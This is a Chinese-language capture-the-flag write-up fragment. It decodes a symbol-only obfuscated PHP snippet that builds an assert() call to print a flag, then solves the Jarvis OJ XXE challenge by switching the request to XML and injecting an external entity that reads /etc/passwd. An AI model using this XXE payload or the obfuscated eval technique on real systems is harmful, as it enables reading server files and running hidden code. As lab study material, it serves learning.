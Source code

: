 

base64解码

```php
$_[]++;$_[]=$_._;$_____=$_[(++$__[])][(++$__[])+(++$__[])+(++$__[])];$_=$_[$_[+_]];$___=$__=$_[++$__[]];$____=$_=$_[+_];$_++;$_++;$_++;$_=$____.++$___.$___.++$_.$__.++$___;$__=$_;$_=$_____;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$___=+_;$___.=$__;$___=++$_^$___[+_];$Ã€=+_;$Ã=$Ã‚=$Ãƒ=$Ã„=$Ã†=$Ãˆ=$Ã‰=$ÃŠ=$Ã‹=++$Ã[];$Ã‚++;$Ãƒ++;$Ãƒ++;$Ã„++;$Ã„++;$Ã„++;$Ã†++;$Ã†++;$Ã†++;$Ã†++;$Ãˆ++;$Ãˆ++;$Ãˆ++;$Ãˆ++;$Ãˆ++;$Ã‰++;$Ã‰++;$Ã‰++;$Ã‰++;$Ã‰++;$Ã‰++;$ÃŠ++;$ÃŠ++;$ÃŠ++;$ÃŠ++;$ÃŠ++;$ÃŠ++;$ÃŠ++;$Ã‹++;$Ã‹++;$Ã‹++;$Ã‹++;$Ã‹++;$Ã‹++;$Ã‹++;$__('$_="'.$___.$Ã.$Ã‚.$Ãƒ.$___.$Ã.$Ã€.$Ã.$___.$Ã.$Ã€.$Ãˆ.$___.$Ã.$Ã€.$Ãƒ.$___.$Ã.$Ã‚.$Ãƒ.$___.$Ã.$Ã‚.$Ã€.$___.$Ã.$Ã‰.$Ãƒ.$___.$Ã.$Ã‰.$Ã€.$___.$Ã.$Ã‰.$Ã€.$___.$Ã.$Ã„.$Ã†.$___.$Ã.$Ãƒ.$Ã‰.$___.$Ã.$Ã†.$Ã.$___.$Ã.$Ãˆ.$Ãƒ.$___.$Ã.$Ãƒ.$Ã‰.$___.$Ã.$Ãˆ.$Ãƒ.$___.$Ã.$Ã†.$Ã‰.$___.$Ã.$Ãƒ.$Ã‰.$___.$Ã.$Ã„.$Ã†.$___.$Ã.$Ã„.$Ã.$___.$Ã.$Ãˆ.$Ãƒ.$___.$Ã.$Ã‰.$Ã.$___.$Ã.$Ã‰.$Ã†.'"');$__($_);


```

php在线运行

```php
PHP Notice:  Undefined variable: _ in /usercode/file.php on line 2
PHP Notice:  Use of undefined constant _ - assumed '_' in /usercode/file.php on line 2
PHP Notice:  Undefined variable: __ in /usercode/file.php on line 2
PHP Notice:  Use of undefined constant _ - assumed '_' in /usercode/file.php on line 2
PHP Notice:  Use of undefined constant _ - assumed '_' in /usercode/file.php on line 2
PHP Notice:  Use of undefined constant _ - assumed '_' in /usercode/file.php on line 2
PHP Notice:  Use of undefined constant _ - assumed '_' in /usercode/file.php on line 2
PHP Notice:  Use of undefined constant _ - assumed '_' in /usercode/file.php on line 2
PHP Notice:  Undefined variable: Ã in /usercode/file.php on line 2
PHP Parse error:  syntax error, unexpected '{' in /usercode/file.php(2) : assert code on line 1
PHP Catchable fatal error:  assert(): Failure evaluating code: 
SAFCSP{xxe_is_so_easy} in /usercode/file.php on line 2
```

#### 获取flag
SAFCSP{xxe_is_so_easy} 



### CTF-Jarvis-OJ-Web-XXE 安全真题复现-数据请求格式

http://web.jarvisoj.com:9882/

更改请求数据格式：application/json   ---->   application/xml



```XML

<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY f SYSTEM "file:///etc/passwd">
]>
<x>&f;</x>
```
